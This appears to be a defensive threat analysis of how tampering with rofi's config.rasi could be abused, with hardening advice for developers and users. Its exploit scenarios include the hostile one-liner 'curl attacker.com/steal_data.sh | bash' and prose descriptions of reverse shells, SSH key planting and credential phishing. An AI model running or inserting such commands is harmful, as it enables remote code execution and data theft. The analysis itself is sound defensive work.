 ## Deep Analysis: Rofi Configuration File Manipulation Attack Surface

This document provides a deep dive analysis of the "Configuration File Manipulation" attack surface identified for applications utilizing the `rofi` utility. We will explore the technical details, potential exploitation methods, and comprehensive mitigation strategies for both developers and users.

**Introduction:**

The flexibility and customizability of `rofi` are key to its popularity. However, this very flexibility, driven by user-configurable files, presents a significant attack surface. The core issue is that `rofi`'s behavior is directly dictated by the content of its configuration file (`config.rasi`). If an attacker can modify this file, they can effectively hijack `rofi` to perform actions on their behalf, within the context of the user running `rofi`. This analysis aims to provide a comprehensive understanding of this risk and offer actionable steps for mitigation.

**Deep Dive into the Mechanism:**

* **Configuration File Structure (`config.rasi`):**  The `config.rasi` file uses a relatively simple syntax to define various aspects of `rofi`'s behavior. This includes:
    * **Keybindings:** Mapping specific keystrokes to actions, including executing external commands.
    * **Theme Settings:**  Controlling the visual appearance of `rofi`. While less directly exploitable for command execution, malicious theme changes could be used for social engineering (e.g., mimicking a login prompt).
    * **Menu Behavior:**  Customizing the layout and functionality of the displayed menus.
    * **Plugins:**  Enabling and configuring external plugins, which could introduce further vulnerabilities if the plugin itself is compromised or poorly written.
    * **Commands:** Defining custom commands that can be triggered through keybindings or menu items.

* **Command Execution Context:**  Crucially, commands executed by `rofi` are run with the privileges of the user who initiated `rofi`. This means an attacker gaining control over the configuration file can execute commands as that user, potentially gaining access to their files, applications, and network resources.

* **Potential for Persistence:** By modifying the configuration file, an attacker can ensure their malicious actions are executed every time the user invokes `rofi`. This creates a persistent backdoor into the user's system.

**Attack Vectors:**

Beyond simply gaining write access to the `config.rasi` file, attackers can leverage various attack vectors to achieve this:

* **Direct File System Access:**
    * **Exploiting other vulnerabilities:** A vulnerability in another application running with the user's privileges could allow an attacker to write to the `~/.config/rofi/` directory.
    * **Social Engineering:** Tricking the user into running a script or command that modifies the configuration file.
    * **Physical Access:** If the attacker has physical access to the user's machine, they can directly modify the file.

* **Exploiting Application-Level Configuration Overrides:** If the application using `rofi` allows users to override parts of the `rofi` configuration (as mentioned in the initial description), vulnerabilities in this override mechanism could be exploited. This could involve:
    * **Injection vulnerabilities:**  If user-supplied data is not properly sanitized before being used to generate or modify the `rofi` configuration.
    * **Path traversal vulnerabilities:** Allowing an attacker to specify a path outside the intended configuration directory.

* **Supply Chain Attacks:**  If the user installs a malicious theme or plugin from an untrusted source, this could directly modify the configuration file or introduce malicious code executed within `rofi`'s context.

**Exploit Scenarios (Expanded):**

Let's explore more detailed exploit scenarios:

* **Keystroke Hijacking and Command Execution:**
    * **Scenario:** An attacker modifies the keybinding for `Enter` (often used to select an item) to execute `curl attacker.com/steal_data.sh | bash`.
    * **Impact:** Every time the user presses `Enter` in `rofi`, the malicious script is downloaded and executed, potentially exfiltrating sensitive data.
    * **Variation:** Instead of direct data exfiltration, the script could add the attacker's SSH key to the `authorized_keys` file for persistent remote access.

* **Data Exfiltration through Theming:**
    * **Scenario:** The attacker modifies the theme to include a script that runs whenever `rofi` is launched or a specific action is performed. This script could silently upload screenshots or keylogging data.
    * **Impact:**  Subtle and persistent data theft without the user's explicit knowledge.

* **Persistence and Backdoor Creation:**
    * **Scenario:** The attacker configures a rarely used keybinding (e.g., `Ctrl+Shift+F12`) to execute a reverse shell, establishing a persistent connection to the attacker's machine.
    * **Impact:**  Allows the attacker to remotely control the user's machine at any time `rofi` is running.

* **Denial of Service:**
    * **Scenario:** The attacker modifies the configuration to cause `rofi` to crash or become unresponsive when certain actions are performed. This could involve infinite loops in scripts or invalid configuration settings.
    * **Impact:**  Disrupts the user's workflow and makes `rofi` unusable.

* **Social Engineering through Modified Interface:**
    * **Scenario:** The attacker modifies the theme to mimic a system authentication prompt when the user tries to perform a specific action in `rofi`. This could trick the user into entering their password, which is then captured by the attacker's script.
    * **Impact:**  Credential theft through a seemingly legitimate interface.

**Defense in Depth - A Multi-Layered Approach:**

Mitigating this attack surface requires a layered approach involving both developers and users.

**Developer-Specific Recommendations (Expanded):**

* **Secure Configuration Location and Permissions:**
    * **Enforce Strict Permissions:** Ensure the default configuration directory (`~/.config/rofi/`) and its contents have restrictive permissions (e.g., `700` for the directory, `600` for `config.rasi`), limiting write access to the owner. This is primarily the user's responsibility, but developers should reinforce this in documentation and potentially provide warnings if insecure permissions are detected.
    * **Avoid Application-Level Configuration Overrides (or Implement Securely):** If your application *must* override `rofi` configuration, do so with extreme caution:
        * **Input Validation:**  Thoroughly sanitize and validate any user-supplied data used to modify the configuration. Prevent injection attacks.
        * **Principle of Least Privilege:** Only modify the necessary configuration settings. Avoid overwriting the entire file.
        * **Secure Storage:** If storing override configurations, ensure they are stored securely and protected from unauthorized access.
        * **Auditing:** Implement logging to track any modifications made to the `rofi` configuration by your application.

* **Security Audits and Best Practices:**
    * **Regularly Review Code:**  Conduct security audits of your application's interaction with `rofi` to identify potential vulnerabilities.
    * **Follow Secure Coding Practices:**  Avoid common pitfalls like command injection when constructing commands for `rofi`.
    * **Consider Sandboxing:** If feasible, explore running `rofi` in a sandboxed environment to limit the impact of potential exploits.

* **User Education and Warnings:**
    * **Provide Clear Documentation:**  Inform users about the security implications of modifying the `rofi` configuration file.
    * **Implement Warnings:** If your application detects potentially insecure configurations or permissions, display warnings to the user.

**User-Specific Recommendations (Expanded):**

* **Restrict File System Permissions:** This is the most crucial defense.
    * **Verify Permissions:** Regularly check the permissions of `~/.config/rofi/` and `config.rasi` using `ls -l ~/.config/rofi/`. Ensure only the user has write access.
    * **Correct Permissions:** If incorrect permissions are found, correct them using `chmod 700 ~/.config/rofi/` and `chmod 600 ~/.config/rofi/config.rasi`.

* **Regularly Review Configuration:**
    * **Inspect `config.rasi`:** Periodically open the `config.rasi` file and look for unexpected or suspicious entries, especially in keybindings and command definitions.
    * **Be Cautious with External Themes and Plugins:** Only install themes and plugins from trusted sources. Review their code if possible before installation.

* **Awareness and Vigilance:**
    * **Be wary of running unknown scripts or commands:**  Attackers might try to trick you into running commands that modify your `rofi` configuration.
    * **Monitor System Activity:** Be aware of unusual system behavior that might indicate malicious activity.

* **Utilize Security Tools:**
    * **File Integrity Monitoring (FIM):** Tools like `AIDE` or `Tripwire` can monitor changes to important files like `config.rasi` and alert you to unauthorized modifications.
    * **Security Software:** Ensure your operating system and security software are up-to-date.

**Conclusion:**

The ability to manipulate `rofi`'s configuration file presents a significant attack surface due to the direct control it grants over the application's behavior and the ability to execute arbitrary commands within the user's context. While the flexibility of `rofi` is a strength, it necessitates a strong focus on security. A combination of secure development practices and diligent user vigilance is crucial to mitigate the risks associated with this attack surface. Developers must prioritize secure defaults and educate users, while users must take responsibility for securing their configuration files. By understanding the potential threats and implementing the recommended mitigation strategies, we can significantly reduce the likelihood of successful exploitation.

**Disclaimer:**

This analysis is based on the provided information and general knowledge of `rofi`. Specific vulnerabilities and exploitation techniques may evolve over time. It is recommended to stay updated on the latest security advisories and best practices related to `rofi` and application security in general.
